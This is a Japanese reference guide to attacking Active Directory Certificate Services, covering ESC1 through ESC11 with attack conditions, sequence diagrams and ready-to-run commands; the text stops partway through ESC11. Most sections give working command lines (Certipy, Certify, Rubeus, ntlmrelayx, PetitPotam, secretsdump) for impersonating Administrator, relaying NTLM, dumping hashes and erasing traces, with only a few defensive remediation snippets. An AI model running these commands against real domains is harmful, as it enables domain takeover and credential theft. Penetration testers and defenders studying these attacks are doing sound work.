# AD CS 脆弱性 (ESC1〜16) 完全攻撃ガイド

各 ESC 攻撃の詳細なシーケンス図・攻撃条件・実行コマンドをまとめたリファレンス。

---

## ESC1: 登録者が Subject を指定できるクライアント認証

### 攻撃条件

- ✅ 証明書テンプレートに **Client Authentication** または **Smart Card Logon** EKU がある
- ✅ テンプレートに **CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT** フラグが設定されている
- ✅ 低権限ユーザーが **Enroll** 権限を持っている
- ✅ 証明書の承認が不要（または攻撃者が承認権限を持っている）

### 攻撃フロー


```mermaid
sequenceDiagram
    autonumber
    participant A as "攻撃者 (低権限ユーザー)"
    participant Certify as "Certify.exe / Certipy"
    participant T as "脆弱なテンプレート (ESC1_Template)"
    participant CA as "証明機関 (CA01)"
    participant DC as ドメインコントローラー

    Note over A,DC: 前提条件: テンプレートスキャン完了

    A->>Certify: Certify.exe find /vulnerable
    Certify->>A: ESC1 脆弱性発見:<br/>VulnerableTemplate

    Note over A: 攻撃実行: Administrator に成りすます

    A->>Certify: Certify.exe request<br/>/ca:CA01\ca-CA01<br/>/template:VulnerableTemplate<br/>/altname:Administrator

    Certify->>T: 証明書リクエストを構築
    Note over Certify: Subject Alternative Name:<br/>Administrator@corp.local

    Certify->>CA: 証明書登録リクエスト
    CA->>CA: テンプレート設定を確認
    Note over CA: CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT<br/>フラグが有効 → SAN 指定が許可される

    CA->>Certify: Administrator 証明書を発行<br/>(PFX 形式)
    Certify->>A: cert.pfx を保存

    Note over A: 証明書を使って Kerberos 認証

    A->>Certify: Rubeus.exe asktgt<br/>/user:Administrator<br/>/certificate:cert.pfx<br/>/password:password<br/>/ptt

    Certify->>DC: TGT リクエスト<br/>(証明書認証)
    DC->>DC: 証明書を検証
    Note over DC: SAN: Administrator@corp.local<br/>→ Administrator として認証

    DC->>Certify: Administrator TGT を発行
    Certify->>A: TGT をメモリに注入 (Pass-the-Ticket)

    Note over A: Domain Admin 権限を取得
    A->>DC: Domain Admin として操作
```

### 攻撃コマンド

**1. 脆弱性スキャン (Windows)**

```powershell
# Certify でスキャン
.\Certify.exe find /vulnerable

# 特定テンプレートの詳細確認
.\Certify.exe find /template:VulnerableTemplate
```

**2. 脆弱性スキャン (Linux/Kali)**

```bash
# Certipy でスキャン
certipy find -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -vulnerable

# BloodHound で結果を確認
certipy find -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -bloodhound
```

**3. 証明書リクエスト (Windows)**

```powershell
# Administrator 用の証明書をリクエスト
.\Certify.exe request /ca:DC01\corp-DC01-CA /template:VulnerableTemplate /altname:Administrator

# 発行された証明書を PFX に変換
certutil -decode cert.pem cert.pfx
```

**4. 証明書リクエスト (Linux/Kali)**

```bash
# 一括でリクエストと取得
certipy req -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -ca 'corp-DC01-CA' -template 'VulnerableTemplate' -upn 'administrator@corp.local'

# 出力: administrator.pfx
```

**5. TGT 取得と認証 (Windows)**

```powershell
# Rubeus で TGT を取得
.\Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /password:password /ptt

# 確認
klist
whoami
```

**6. TGT 取得と認証 (Linux/Kali)**

```bash
# Certipy で TGT を取得
certipy auth -pfx administrator.pfx -dc-ip 10.10.10.100

# 出力: administrator.ccache (TGT)

# TGT を使用
export KRB5CCNAME=administrator.ccache
impacket-secretsdump -k -no-pass corp.local/administrator@dc01.corp.local
```

**7. NTLM ハッシュ取得 (オプション)**

```bash
# UnPAC the hash テクニックで NTLM ハッシュを取得
certipy auth -pfx administrator.pfx -dc-ip 10.10.10.100

# 出力: Administrator の NTLM ハッシュ
# Pass-the-Hash で利用可能
```

---

## ESC2: 汎用目的証明書テンプレート

### 攻撃条件

- ✅ 証明書テンプレートに **Any Purpose EKU** (`2.5.29.37.0`) がある、または EKU が定義されていない
- ✅ 低権限ユーザーが **Enroll** 権限を持っている
- ✅ 証明書の承認が不要

### 攻撃フロー


```mermaid
sequenceDiagram
    autonumber
    participant A as 攻撃者
    participant Certify as Certify.exe
    participant T as "Any Purpose テンプレート"
    participant CA as 証明機関
    participant DC as ドメインコントローラー

    A->>Certify: Certify.exe find /vulnerable
    Certify->>A: ESC2 検出:<br/>AnyPurposeTemplate<br/>(EKU: Any Purpose)

    Note over A: Any Purpose EKU はクライアント認証を含む<br/>すべての用途に使用可能

    A->>Certify: Certify.exe request<br/>/ca:CA01\ca-CA01<br/>/template:AnyPurposeTemplate<br/>/altname:Administrator

    Note over Certify: ESC1 と同様に SAN を指定できる場合もある<br/>指定できない場合は自分自身の証明書のみ

    Certify->>CA: 証明書リクエスト
    CA->>Certify: Any Purpose EKU 証明書を発行

    Note over A: クライアント認証として使用可能

    A->>Certify: Rubeus.exe asktgt<br/>/user:攻撃者 or Administrator<br/>/certificate:cert.pfx<br/>/ptt

    Certify->>DC: TGT リクエスト
    DC->>DC: EKU 確認: Any Purpose<br/>→ クライアント認証として有効
    DC->>Certify: TGT 発行
    Certify->>A: 認証成功
```

### 攻撃コマンド

**1. 脆弱性スキャン**

```bash
# ESC2 を特定
certipy find -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -vulnerable -stdout | grep -i "ESC2"
```

**2. 証明書リクエスト (SAN を指定できる場合)**

```bash
# Administrator として証明書をリクエスト
certipy req -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -ca 'corp-DC01-CA' -template 'AnyPurposeTemplate' -upn 'administrator@corp.local'
```

**3. 証明書リクエスト (SAN を指定できない場合)**

```bash
# 自分自身の証明書のみ取得
certipy req -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -ca 'corp-DC01-CA' -template 'AnyPurposeTemplate'

# 別の ESC 攻撃と組み合わせる必要がある
```

---

## ESC3: 登録エージェント証明書テンプレート

### 攻撃条件

- ✅ 証明書テンプレートに **Certificate Request Agent EKU** (`1.3.6.1.4.1.311.20.2.1`) がある
- ✅ 低権限ユーザーが **Enroll** 権限を持っている
- ✅ 別の証明書テンプレートが **Application Policy** で Enrollment Agent を許可している
- ✅ または **Issuance Requirements** が Enrollment Agent に制限を課していない

### 攻撃フロー


```mermaid
sequenceDiagram
    autonumber
    participant A as 攻撃者
    participant Certify as Certify.exe
    participant EA as "Enrollment Agent テンプレート"
    participant CA as 証明機関
    participant CT as "クライアント認証テンプレート"
    participant DC as ドメインコントローラー

    Note over A: フェーズ 1: Enrollment Agent 証明書を取得

    A->>Certify: Certify.exe find /vulnerable
    Certify->>A: ESC3 検出:<br/>EnrollmentAgentTemplate

    A->>Certify: Certify.exe request<br/>/ca:CA01\ca-CA01<br/>/template:EnrollmentAgentTemplate

    Certify->>CA: Enrollment Agent 証明書リクエスト
    CA->>Certify: Enrollment Agent 証明書を発行<br/>(agent.pfx)

    Note over A: フェーズ 2: 別ユーザーの代わりに登録

    A->>Certify: Certify.exe request<br/>/ca:CA01\ca-CA01<br/>/template:User<br/>/onbehalfof:CORP\Administrator<br/>/enrollcert:agent.pfx<br/>/enrollcertpw:password

    Note over Certify: Enrollment Agent として<br/>Administrator の証明書を代理リクエスト

    Certify->>CT: Administrator の証明書をリクエスト
    CT->>CA: 代理登録リクエスト
    CA->>CA: Enrollment Agent を検証
    Note over CA: agent.pfx の署名を確認<br/>→ 代理登録を許可

    CA->>Certify: Administrator 証明書を発行<br/>(admin.pfx)

    Note over A: フェーズ 3: 認証

    A->>Certify: Rubeus.exe asktgt<br/>/user:Administrator<br/>/certificate:admin.pfx<br/>/ptt

    Certify->>DC: TGT リクエスト
    DC->>Certify: Administrator TGT
    Certify->>A: Domain Admin 権限を取得
```

### 攻撃コマンド

**1. 脆弱性スキャン**

```bash
# ESC3 を特定
certipy find -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -vulnerable -stdout | grep -A 20 "ESC3"
```

**2. Enrollment Agent 証明書の取得**

```bash
# フェーズ 1: Enrollment Agent 証明書を取得
certipy req -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -ca 'corp-DC01-CA' -template 'EnrollmentAgent'

# 出力: john.pfx (Enrollment Agent 証明書)
```

**3. 代理登録で Administrator 証明書を取得**

```bash
# フェーズ 2: 代理で Administrator の証明書をリクエスト
certipy req -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -ca 'corp-DC01-CA' -template 'User' -on-behalf-of 'corp\administrator' -pfx 'john.pfx'

# 出力: administrator.pfx
```

**4. 認証**

```bash
# TGT を取得
certipy auth -pfx administrator.pfx -dc-ip 10.10.10.100
```

**Windows での実行**

```powershell
# フェーズ 1
.\Certify.exe request /ca:DC01\corp-DC01-CA /template:EnrollmentAgent

# フェーズ 2
.\Certify.exe request /ca:DC01\corp-DC01-CA /template:User /onbehalfof:CORP\Administrator /enrollcert:agent.pfx /enrollcertpw:password

# フェーズ 3
.\Rubeus.exe asktgt /user:Administrator /certificate:admin.pfx /ptt
```

---

## ESC4: テンプレートのハイジャック

### 攻撃条件

- ✅ 攻撃者が証明書テンプレートに **WriteProperty** または **WriteDACL** 権限を持っている
- ✅ テンプレートを ESC1 の条件を満たすように変更できる

### 攻撃フロー


```mermaid
sequenceDiagram
    autonumber
    participant A as 攻撃者
    participant AD as Active Directory
    participant T as "証明書テンプレート (変更前)"
    participant T2 as "証明書テンプレート (変更後)"
    participant CA as 証明機関
    participant DC as ドメインコントローラー

    Note over A: フェーズ 1: 権限を確認

    A->>AD: Get-Acl で確認
    AD->>A: WriteProperty / WriteDACL 権限あり

    Note over A: フェーズ 2: テンプレートを変更

    A->>T: Set-ADObject<br/>msPKI-Certificate-Name-Flag<br/>+= CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT

    T->>T2: 設定変更を適用
    Note over T2: SAN の指定が可能になった

    A->>T2: Set-ADObject<br/>msPKI-Certificate-Application-Policy<br/>+= Client Authentication

    Note over T2: Client Authentication EKU を追加

    A->>T2: Set-ADObject<br/>ACE 追加: Domain Users に<br/>Enroll 権限を付与

    Note over T2: 誰でも登録可能になった

    Note over A: フェーズ 3: ESC1 攻撃を実行

    A->>T2: Certify.exe request<br/>/template:ModifiedTemplate<br/>/altname:Administrator

    T2->>CA: 証明書リクエスト
    CA->>A: Administrator 証明書を発行

    A->>DC: Rubeus.exe asktgt<br/>/certificate:cert.pfx<br/>/ptt
    DC->>A: Domain Admin TGT

    Note over A: フェーズ 4: 痕跡の消去 (オプション)

    A->>T2: テンプレート設定を元に戻す
```

### 攻撃コマンド

**1. 権限の確認**

```powershell
# PowerView で権限を確認
Import-Module .\PowerView.ps1
Get-DomainObjectAcl -Identity "VulnerableTemplate" -ResolveGUIDs | Where-Object {$_.ActiveDirectoryRights -match "WriteProperty|WriteDacl"}
```

**2. テンプレートの変更**

```powershell
# AD モジュールを使って変更
Import-Module ActiveDirectory

# テンプレートの DN を取得
$template = Get-ADObject -Filter {cn -eq "VulnerableTemplate"} -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=corp,DC=local"

# SAN 指定を有効化
Set-ADObject -Identity $template.DistinguishedName -Add @{'msPKI-Certificate-Name-Flag'=1}

# Client Authentication EKU を追加
Set-ADObject -Identity $template.DistinguishedName -Replace @{'pKIExtendedKeyUsage'='1.3.6.1.5.5.7.3.2'}
```

**3. Linux から変更 (ldapmodify)**

```bash
# LDIF ファイルを作成
cat > modify_template.ldif << EOF
dn: CN=VulnerableTemplate,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=corp,DC=local
changetype: modify
replace: msPKI-Certificate-Name-Flag
msPKI-Certificate-Name-Flag: 1
EOF

# LDAP で変更を適用
ldapmodify -x -H ldap://10.10.10.100 -D "cn=john,cn=users,dc=corp,dc=local" -w 'Password123!' -f modify_template.ldif
```

**4. 証明書リクエスト (変更後)**

```bash
# ESC1 攻撃を実行
certipy req -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -ca 'corp-DC01-CA' -template 'VulnerableTemplate' -upn 'administrator@corp.local'
```

**5. 痕跡の消去**

```powershell
# 元の設定に戻す
Set-ADObject -Identity $template.DistinguishedName -Replace @{'msPKI-Certificate-Name-Flag'=0}
```

---

## ESC5: PKI オブジェクトへの危険なアクセス権限

### 攻撃条件

- ✅ 攻撃者が以下のオブジェクトに危険な権限を持っている:
    - 証明書テンプレート: **WriteProperty**、**WriteOwner**、**WriteDACL**
    - CA: **ManageCA**、**ManageCertificates**
    - CA コンピューター: **WriteProperty** (dNSHostName 等)

### 攻撃フロー


```mermaid
sequenceDiagram
    autonumber
    participant A as 攻撃者
    participant AD as Active Directory
    participant PKI as PKI オブジェクト
    participant CA as 証明機関
    participant DC as ドメインコントローラー

    Note over A: パターン 1: テンプレートへの WriteProperty

    A->>AD: Get-Acl で確認
    AD->>A: WriteProperty 権限あり<br/>(証明書テンプレート)

    A->>PKI: ESC4 と同様にテンプレートを変更
    PKI->>A: 変更完了

    A->>CA: ESC1 攻撃を実行
    CA->>A: 証明書発行

    Note over A: パターン 2: CA への ManageCA

    A->>CA: certutil -config "CA01\ca-CA01"<br/>-setreg policy\EditFlags<br/>+EDITF_ATTRIBUTESUBJECTALTNAME2

    Note over CA: ESC6 の条件を作成

    CA->>A: 設定変更完了

    A->>CA: ESC6 攻撃を実行
    CA->>A: 証明書発行

    Note over A: パターン 3: CA への ManageCertificates

    A->>CA: certutil -resubmit [RequestId]
    Note over A: 保留中の証明書リクエストを承認

    CA->>A: 証明書発行

    A->>DC: 証明書で認証
    DC->>A: TGT を発行
```

### 攻撃コマンド

**1. 権限の列挙**

```powershell
# Certify で権限を確認
.\Certify.exe find /vulnerable

# PowerView で詳細確認
Get-DomainObjectAcl -Identity "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=corp,DC=local" -ResolveGUIDs
```

**2. パターン 1: テンプレートの変更 (ESC4 と同じ)**

```bash
# ESC4 のコマンドを使用
```

**3. パターン 2: ManageCA 権限の悪用**

```powershell
# Windows: EDITF_ATTRIBUTESUBJECTALTNAME2 を有効化
certutil -config "DC01\corp-DC01-CA" -setreg policy\EditFlags +EDITF_ATTRIBUTESUBJECTALTNAME2

# CA サービスを再起動
Invoke-Command -ComputerName DC01 -ScriptBlock { Restart-Service certsvc }
```

```bash
# Linux: Certipy で設定を変更
certipy ca -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -ca 'corp-DC01-CA' -enable-template 'SubCA'
```

**4. パターン 3: ManageCertificates 権限の悪用**

```powershell
# 保留中のリクエストを確認
certutil -config "DC01\corp-DC01-CA" -view

# 保留中のリクエストを承認
certutil -config "DC01\corp-DC01-CA" -resubmit [RequestId]

# 証明書を取得
certutil -config "DC01\corp-DC01-CA" -retrieve [RequestId] cert.cer
```

---

## ESC6: CA がリクエスト属性で SAN 指定を許可

### 攻撃条件

- ✅ CA に **EDITF_ATTRIBUTESUBJECTALTNAME2** フラグが設定されている
- ✅ 低権限ユーザーが登録できる証明書テンプレートが存在する
- ✅ テンプレートに **Client Authentication** EKU (または Any Purpose) がある

### 攻撃フロー


```mermaid
sequenceDiagram
    autonumber
    participant A as 攻撃者
    participant Certify as Certify.exe
    participant T as 任意のテンプレート
    participant CA as 証明機関
    participant DC as ドメインコントローラー

    Note over CA: CA 設定:<br/>EDITF_ATTRIBUTESUBJECTALTNAME2 = 有効

    A->>Certify: Certify.exe find
    Certify->>A: ESC6 検出:<br/>CA が SAN 指定を許可

    Note over A: テンプレート自体は脆弱でないが<br/>CA の設定により攻撃が可能

    A->>Certify: Certify.exe request<br/>/ca:CA01\ca-CA01<br/>/template:User<br/>/altname:Administrator

    Note over Certify: リクエスト属性に SAN を含める:<br/>san:upn=Administrator@corp.local

    Certify->>T: 証明書リクエスト
    T->>CA: リクエストを転送

    CA->>CA: EDITF_ATTRIBUTESUBJECTALTNAME2<br/>フラグを確認
    Note over CA: フラグが有効<br/>→ リクエスト属性から SAN を読み取る

    CA->>CA: テンプレートの SAN 制限を無視

    CA->>Certify: Administrator 証明書を発行
    Note over CA: リクエスト属性の SAN が優先される

    Certify->>A: administrator.pfx

    A->>Certify: Rubeus.exe asktgt<br/>/user:Administrator<br/>/certificate:administrator.pfx<br/>/ptt

    Certify->>DC: TGT リクエスト
    DC->>Certify: Administrator TGT
    Certify->>A: Domain Admin 権限を取得
```

### 攻撃コマンド

**1. 脆弱性の確認**

```powershell
# Windows: CA 設定を確認
certutil -config "DC01\corp-DC01-CA" -getreg policy\EditFlags

# 出力に EDITF_ATTRIBUTESUBJECTALTNAME2 (0x40000) が含まれるか確認
```

```bash
# Linux: Certipy で確認
certipy find -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -vulnerable -stdout | grep -i "ESC6"
```

**2. 証明書リクエスト (Windows)**

```powershell
# User テンプレートで Administrator の証明書をリクエスト
.\Certify.exe request /ca:DC01\corp-DC01-CA /template:User /altname:Administrator
```

**3. 証明書リクエスト (Linux)**

```bash
# Certipy で SAN を指定
certipy req -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -ca 'corp-DC01-CA' -template 'User' -upn 'administrator@corp.local'

# 出力: administrator.pfx
```

**4. 認証**

```bash
# TGT を取得
certipy auth -pfx administrator.pfx -dc-ip 10.10.10.100
```

**5. 対策 (防御側)**

```powershell
# EDITF_ATTRIBUTESUBJECTALTNAME2 を無効化
certutil -config "DC01\corp-DC01-CA" -setreg policy\EditFlags -EDITF_ATTRIBUTESUBJECTALTNAME2

# CA サービスを再起動
Restart-Service certsvc
```

---

## ESC7: CA への危険な権限

### 攻撃条件

- ✅ 攻撃者が CA に **ManageCA** 権限を持っている
- ✅ または攻撃者が **ManageCertificates** 権限を持っている

### 攻撃フロー


```mermaid
sequenceDiagram
    autonumber
    participant A as 攻撃者
    participant CA as 証明機関
    participant T as 証明書テンプレート
    participant DC as ドメインコントローラー

    Note over A: パターン 1: ManageCA 権限

    A->>CA: CA の権限を確認
    CA->>A: ManageCA 権限あり

    A->>CA: certutil -setreg policy\EditFlags<br/>+EDITF_ATTRIBUTESUBJECTALTNAME2

    Note over CA: ESC6 の条件を作成

    CA->>A: 設定変更完了

    A->>CA: ESC6 攻撃を実行<br/>(SAN 付き証明書をリクエスト)
    CA->>A: Administrator 証明書を発行

    Note over A: パターン 2: ManageCertificates 権限

    A->>CA: 任意のテンプレートで証明書をリクエスト
    Note over A: 意図的に失敗させる<br/>(保留状態にする)

    CA->>CA: リクエストを保留状態で保持

    A->>CA: certutil -resubmit [RequestId]
    Note over A: ManageCertificates 権限で<br/>自分のリクエストを承認

    CA->>A: 証明書を発行

    Note over A: パターン 3: SubCA テンプレートの有効化

    A->>CA: certutil -CATemplate +SubCA
    Note over A: ManageCA 権限で<br/>SubCA テンプレートを有効化

    A->>T: SubCA 証明書をリクエスト
    T->>CA: リクエストを転送
    CA->>CA: リクエストを保留

    A->>CA: certutil -resubmit [RequestId]
    Note over A: ManageCA 権限で<br/>SubCA も承認可能

    CA->>A: SubCA 証明書を発行
    Note over A: SubCA 証明書があれば<br/>任意の証明書に署名可能

    A->>DC: 偽造証明書で認証
    DC->>A: TGT を発行
```

### 攻撃コマンド

**1. 権限の確認**

```powershell
# Certify で CA 権限を確認
.\Certify.exe find /vulnerable

# 出力で ManageCA / ManageCertificates を確認
```

**2. パターン 1: ManageCA で ESC6 を有効化**

```powershell
# EDITF_ATTRIBUTESUBJECTALTNAME2 を有効化
certutil -config "DC01\corp-DC01-CA" -setreg policy\EditFlags +EDITF_ATTRIBUTESUBJECTALTNAME2

# CA を再起動
Restart-Service certsvc

# ESC6 攻撃を実行
.\Certify.exe request /ca:DC01\corp-DC01-CA /template:User /altname:Administrator
```

**3. パターン 2: ManageCertificates でリクエストを承認**

```powershell
# 証明書をリクエスト (意図的に失敗させる)
.\Certify.exe request /ca:DC01\corp-DC01-CA /template:RequireManagerApproval /altname:Administrator

# リクエスト ID を記録
# 例: Request ID: 1234

# リクエストを承認
certutil -config "DC01\corp-DC01-CA" -resubmit 1234

# 証明書を取得
certutil -config "DC01\corp-DC01-CA" -retrieve 1234 admin.cer
```

**4. パターン 3: SubCA 攻撃**

```bash
# Linux: Certipy で SubCA テンプレートを有効化して悪用
certipy ca -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -ca 'corp-DC01-CA' -enable-template 'SubCA'

# SubCA 証明書をリクエスト
certipy req -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -ca 'corp-DC01-CA' -template 'SubCA' -upn 'administrator@corp.local'

# リクエスト ID を取得後に承認が必要な場合は
# ManageCA または ManageCertificates 権限で承認
```

---

## ESC8: AD CS Web Enrollment への NTLM リレー

### 攻撃条件

- ✅ AD CS Web Enrollment が **HTTP** (暗号化なし) で動作している
- ✅ NTLM 認証が有効になっている
- ✅ 攻撃者が Domain Admin 等の特権アカウントから NTLM 認証を強制できる (Coercion)

### 攻撃フロー


```mermaid
sequenceDiagram
    autonumber
    participant A as "攻撃者 (リレーサーバー)"
    participant V as "被害者 (Domain Admin)"
    participant R as ntlmrelayx
    participant W as "Web Enrollment (HTTP)"
    participant CA as 証明機関
    participant DC as ドメインコントローラー

    Note over A: 準備: リレーサーバーを起動

    A->>R: ntlmrelayx.py -t<br/>http://ca01/certsrv/certfnsh.asp<br/>--adcs --template User

    Note over R: Web Enrollment へのリレーを待機

    Note over A: 強制認証攻撃を実行

    A->>V: PetitPotam / PrinterBug で<br/>NTLM 認証を強制

    Note over V: DC01$ または Domain Admin が<br/>攻撃者へ NTLM 認証を試みる

    V->>R: NTLM 認証の試み<br/>(SMB / HTTP)

    Note over R: NTLM<br/>チャレンジ・レスポンスをキャプチャ

    R->>W: NTLM を Web Enrollment にリレー
    Note over R: http://ca01/certsrv/certfnsh.asp

    W->>W: Domain Admin / DC01$ として認証
    Note over W: HTTP 上の NTLM を受け入れる

    R->>W: 証明書リクエスト<br/>(User テンプレート)
    Note over R: Domain Admin の証明書をリクエスト

    W->>CA: 証明書登録リクエスト
    CA->>W: Domain Admin 証明書を発行
    W->>R: 証明書を返す (PFX)

    R->>A: administrator.pfx を保存

    Note over A: 認証フェーズ

    A->>DC: certipy auth -pfx administrator.pfx
    DC->>A: Domain Admin TGT / NTLM ハッシュ

    Note over A: Domain Admin 権限を取得
```

### 攻撃コマンド

**1. Web Enrollment の確認**

```bash
# HTTP で動作しているか確認
curl -I http://ca01.corp.local/certsrv/

# HTTPS の場合は ESC8 は適用不可
```

**2. ntlmrelayx のセットアップ**

```bash
# Impacket の ntlmrelayx を使用
impacket-ntlmrelayx -t http://ca01.corp.local/certsrv/certfnsh.asp --adcs --template User

# または DomainController テンプレートを使用
impacket-ntlmrelayx -t http://ca01.corp.local/certsrv/certfnsh.asp --adcs --template DomainController
```

**3. 強制認証攻撃の実行**

```bash
# PetitPotam で DC の NTLM を強制
python3 PetitPotam.py -u john -p 'Password123!' -d corp.local 10.10.10.50 10.10.10.100

# 10.10.10.50 = 攻撃者のリレーサーバー
# 10.10.10.100 = DC01 (被害者)
```

```bash
# PrinterBug で DC の NTLM を強制
python3 dementor.py -u john -p 'Password123!' -d corp.local 10.10.10.50 10.10.10.100
```

**4. 証明書の取得と認証**

```bash
# ntlmrelayx が自動的に証明書を保存する
# 出力例: dc01.pfx

# 認証
certipy auth -pfx dc01.pfx -dc-ip 10.10.10.100

# DC の NTLM ハッシュまたは TGT を取得
```

**5. 防御策の確認**

```powershell
# Extended Protection for Authentication (EPA) を確認
Get-WebConfiguration -Filter "system.webServer/security/authentication/windowsAuthentication" -PSPath "IIS:\Sites\Default Web Site\CertSrv"

# EPA が無効な場合は ESC8 が可能
```

---

## ESC9: 証明書テンプレートにセキュリティ拡張がない

### 攻撃条件

- ✅ 証明書テンプレートに **CT_FLAG_NO_SECURITY_EXTENSION** フラグが設定されている
- ✅ **msPKI-Enrollment-Flag** に **CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT** が含まれている
- ✅ 弱い証明書マッピング (UPN マッピング) が有効になっている

### 攻撃フロー


```mermaid
sequenceDiagram
    autonumber
    participant A as 攻撃者
    participant T as 脆弱なテンプレート
    participant CA as 証明機関
    participant DC as ドメインコントローラー

    Note over T: 条件:<br/>CT_FLAG_NO_SECURITY_EXTENSION<br/>CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT

    A->>T: 証明書リクエスト
    Note over A: SAN UPN:<br/>Administrator@corp.local

    T->>CA: 証明書リクエスト

    CA->>CA: Security Extension を生成しない
    Note over CA: CT_FLAG_NO_SECURITY_EXTENSION<br/>→ szOID_NTDS_CA_SECURITY_EXT なし

    CA->>A: 証明書を発行<br/>(Security Extension なし)

    Note over A: Security Extension がないため<br/>SID 検証がスキップされる

    A->>DC: 証明書で認証

    DC->>DC: 証明書マッピングを確認
    Note over DC: CertificateMappingMethods に<br/>UPN マッピングが含まれる

    DC->>DC: Security Extension なし<br/>→ SID 検証をスキップ

    DC->>DC: UPN のみで認証
    Note over DC: SAN UPN: Administrator@corp.local<br/>→ Administrator として認証

    DC->>A: Administrator TGT を発行

    Note over A: Domain Admin 権限を取得
```

### 攻撃コマンド

**1. 脆弱性スキャン**

```bash
# ESC9 を特定
certipy find -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -vulnerable -stdout | grep -A 20 "ESC9"
```

**2. 証明書リクエスト**

```bash
# Administrator UPN で証明書をリクエスト
certipy req -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -ca 'corp-DC01-CA' -template 'ESC9Template' -upn 'administrator@corp.local'

# 出力: administrator.pfx
```

**3. 認証**

```bash
# 弱いマッピングを使って認証
certipy auth -pfx administrator.pfx -dc-ip 10.10.10.100

# UPN マッピングで Administrator として認証
```

**4. 証明書マッピング設定の確認 (DC 上)**

```powershell
# レジストリで確認
Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\Schannel" -Name "CertificateMappingMethods"

# 値に 0x4 (UPN) が含まれるか確認
# 0x1 = Subject/Issuer
# 0x2 = Issuer Only
# 0x4 = UPN (弱い)
```

---

## ESC10: Schannel 認証における弱い証明書マッピング

### 攻撃条件

- ✅ **CertificateMappingMethods** が **0x4** (UPN マッピングのみ) に設定されている
- ✅ 攻撃者が任意の UPN を持つ証明書を取得できる

### 攻撃フロー


```mermaid
sequenceDiagram
    autonumber
    participant A as 攻撃者
    participant CA as 証明機関
    participant DC as ドメインコントローラー

    Note over DC: 設定:<br/>CertificateMappingMethods = 0x4<br/>(UPN マッピングのみ)

    Note over A: 任意の証明書を取得<br/>(ESC1/2/3/6 等を経由)

    A->>CA: 証明書リクエスト
    Note over A: SAN UPN:<br/>Administrator@corp.local

    CA->>A: 証明書を発行

    Note over A: Schannel で認証

    A->>DC: PKINIT / Schannel 認証<br/>(証明書を提示)

    DC->>DC: 証明書マッピングを処理
    Note over DC: CertificateMappingMethods = 0x4<br/>→ UPN のみでマッピング

    DC->>DC: SID や Issuer を検証しない
    Note over DC: 弱いマッピング

    DC->>DC: UPN: Administrator@corp.local<br/>→ Administrator アカウントを検索

    DC->>A: Administrator として認証成功

    A->>DC: TGT リクエスト
    DC->>A: Administrator TGT を発行

    Note over A: Domain Admin 権限を取得
```

### 攻撃コマンド

**1. 証明書マッピング設定の確認**

```powershell
# DC のレジストリを確認
reg query "HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\Schannel" /v CertificateMappingMethods

# 0x4 (UPN) の場合は ESC10 が可能
```

**2. 証明書の取得 (別の ESC を使用)**

```bash
# ESC1 等で Administrator の証明書を取得
certipy req -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -ca 'corp-DC01-CA' -template 'VulnerableTemplate' -upn 'administrator@corp.local'
```

**3. 認証**

```bash
# 弱いマッピングで認証
certipy auth -pfx administrator.pfx -dc-ip 10.10.10.100

# UPN のみでマッピングされ、Administrator として認証
```

**4. 対策 (防御側)**

```powershell
# 強固な証明書マッピングを強制
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\Schannel" -Name "CertificateMappingMethods" -Value 0x3

# 0x1 = Subject/Issuer (強固)
# 0x2 = Issuer Only (強固)
# 0x3 = Subject/Issuer + Issuer Only (推奨)

# または StrongCertificateBindingEnforcement を有効化
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\Kdc" -Name "StrongCertificateBindingEnforcement" -Value 2
```

---

## ESC11: AD CS RPC インターフェースへの NTLM リレー

### 攻撃条件

- ✅ AD CS の **RPC インターフェース** (ICertPassage) が NTLM 認証を受け入れる
- ✅ 攻撃者が Domain Admin 等の特権アカウントから NTLM 認証を強制できる

### 攻撃フロー


```mermaid
sequenceDiagram
    autonumber
    participant A as "攻撃者 (リレーサーバー)"
    participant V as "被害者 (Domain Admin)"
    participant R as ntlmrelayx
    participant RPC as "AD CS RPC (ICertPassage)"
    participant CA as 証明機関
    participant DC as ドメインコントローラー

    Note over A: 準備: RPC リレーサーバーを起動

    A->>R: ntlmrelayx.py -t rpc://ca01.corp.local<br/>--adcs --template User

    Note over R: ICertPassage RPC へのリレーを待機

    Note over A: 強制認証攻撃を実行

    A->>V: PetitPotam で NTLM 認証を強制

    V->>R: NTLM 認証の試み

    Note over R: NTLM<br/>チャレンジ・レスポンスをキャプチャ

    R->>RPC: NTLM を RPC インターフェースにリレー
    Note over R: ICertPassage RPC<br/>(ポート 135/593 経由)

    RPC->>RPC: Domain Admin として認証
    Note over RPC: NTLM 認証成功

    R->>RPC: 証明書リクエスト<br/>(RPC 経由)
    Note over R: CertServerRequest メソッドを呼び出す

    RPC->>CA: 証明書登録リクエスト
    CA->>RPC: Domain Admin 証明書を発行
